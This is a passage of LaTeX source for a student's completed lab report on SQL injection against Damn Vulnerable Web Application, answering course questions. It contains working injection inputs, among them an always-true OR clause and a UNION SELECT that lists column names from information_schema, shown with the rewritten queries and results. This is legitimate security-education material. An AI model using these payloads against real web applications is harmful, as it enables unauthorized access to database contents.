\documentclass[12pt]{article}
\usepackage[margin=1in]{geometry}
\usepackage{listings}      % For code snippets
\usepackage{color}         % For coloring code
\usepackage{graphicx}      % For including images
\usepackage{hyperref}      % For hyperlinks
\usepackage{amsmath}       % For mathematical expressions
\usepackage{fancyhdr}      % For headers and footers
\usepackage{caption}       % For customizing captions
\usepackage{enumitem}      % For custom lists
\usepackage{setspace}      % For line spacing
\usepackage{float}         % For exact figure placement
\usepackage{xcolor}        % For custom colors in listings

% Define a common style for all languages
\lstset{
    basicstyle=\ttfamily\small,  % Use a monospaced font
    keywordstyle=\bfseries\color{blue},  % Keywords in bold and blue
    stringstyle=\color{orange},  % Strings in orange
    commentstyle=\color{gray},   % Comments in gray
    frame=single,                % Add a frame around code
    showstringspaces=false,      % Do not display spaces in strings
    breaklines=true,             % Line breaking
    numbers=left,                % Line numbers on left
    numberstyle=\tiny\color{gray}, % Style for line numbers
    escapeinside={(*@}{@*)},     % Escape to LaTeX with (*@...@*)
}

\lstdefinelanguage{JavaScript}{
    keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break, let, const},
    sensitive=true,
    comment=[l]{//},
    morecomment=[s]{/*}{*/},
    morestring=[b]",
    morestring=[b]',
}

% Define a specific style for SQL
\lstdefinestyle{SQL}{
    language=SQL,
    morekeywords={SELECT, FROM, WHERE, UNION, INSERT, INTO, VALUES, UPDATE, DELETE, AND, OR, NOT, NULL}, % SQL keywords
}

% Define a specific style for HTML
\lstdefinestyle{HTML}{
    language=HTML,
    morekeywords={html, head, body, div, span, script, input, select, option}, % HTML tags
}

% Define a specific style for JavaScript
\lstdefinestyle{JavaScript}{
    language=JavaScript,
    morekeywords={function, var, let, const, document, getElementById, getElementsByName, console, log}, % JS keywords
}

\setlength{\parskip}{0.5em}
\setlength{\parindent}{0em}
\onehalfspacing

\pagestyle{fancy}
\fancyhf{}
\rhead{Abraham Reines}
\lhead{SQL Injection Lab}
\rfoot{\thepage}

\begin{document}

\begin{titlepage}
    \centering
    {\scshape\LARGE Virginia Cyber Range \par}
    \vspace{1cm}
    {\huge\bfseries SQL Injection Lab Assignment\par}
    \vspace{1.5cm}
    {\Large Created by David Raymond, Ph.D., CISSP, Virginia Tech\par}
    \vspace{2cm}
    {\Large Completed by Abraham J. Reines\par}
    \vspace{2cm}
    {\Large \today\par}
    \vfill
    {\small (CC BY-NC-SA 4.0)}
\end{titlepage}

\tableofcontents
\newpage

\section{Introduction}

goal of this lab is to get practical experience with SQL injection vulnerabilities in web applications by using Damn Vulnerable Web Application (DVWA). We will run different SQL queries and injection attacks to learn how these vulnerabilities can be exploited and how to stop them.

\section{SQL Primer}

Structured Query Language (SQL) is used to interact with databases. Here is an example query:

\begin{lstlisting}[language=SQL]
SELECT first_name FROM users WHERE userid = 2;
\end{lstlisting}

This query selects first name from \texttt{users} table where \texttt{userid} equals 2.

\section{Lab Exercises}

\subsection{Task 2: SQL Query Evaluation}

Given following query:

\begin{lstlisting}[language=SQL]
SELECT last_name FROM users WHERE first_name = 'Pablo';
\end{lstlisting}

\textbf{Q1. What is result of above SQL query?}

\textbf{Answer:}

query looks for last name of user with first name 'Pablo'. From given table, result is:

\begin{itemize}
    \item \texttt{Picasso}
\end{itemize}

\subsection{Task 3: Hands-on with SQL Injection}

When we enter a 'User ID' of \texttt{1} in DVWA application, it runs this SQL query:

\begin{lstlisting}[language=SQL]
SELECT first_name, last_name FROM users WHERE user_id = '1';
\end{lstlisting}

To exploit SQL injection vulnerability, we can enter:

\begin{lstlisting}
1' OR user_id=2 #
\end{lstlisting}

This changes query to:

\begin{lstlisting}[language=SQL]
SELECT first_name, last_name FROM users WHERE user_id = '1' OR user_id='2' # ';
\end{lstlisting}

\texttt{\#} symbol is used to comment out rest of query.

\textbf{Q2. What results do you get from this query?}

\textbf{Answer:}

query returns first and last names of users with \texttt{user\_id} 1 and 2.

\begin{itemize}
    \item User ID 1: admin admin
    \item User ID 2: Gordon Brown
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1.0\textwidth]{Both.png}
    \caption{Results of SQL injection for user IDs 1 and 2.}
\end{figure}

\newpage
\textbf{Q3. Can you construct a query that will show ALL of rows in ‘users’ table? Write query down here.}

\textbf{Answer:}

If we input:

\begin{lstlisting}
1' OR '1'='1' #
\end{lstlisting}

SQL query becomes:

\begin{lstlisting}[language=SQL]
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1' # ';
\end{lstlisting}

Because '1'='1' is always true, this returns all rows in \texttt{users} table.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\textwidth]{Screenshot2.png}
    \caption{Results from injection showing all rows in users table.}
\end{figure}

\subsection{Task 4: Continued Exploration}

Using techniques from provided links, we can discover more about database schema.

\textbf{Q4. Can you find out more about field names in ‘users’ table?}

\textbf{Answer:}

Yes, by entering:

\begin{lstlisting}
1' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users' #
\end{lstlisting}

This lets us get column names from \texttt{users} table.

\begin{figure}[H]
    \centering
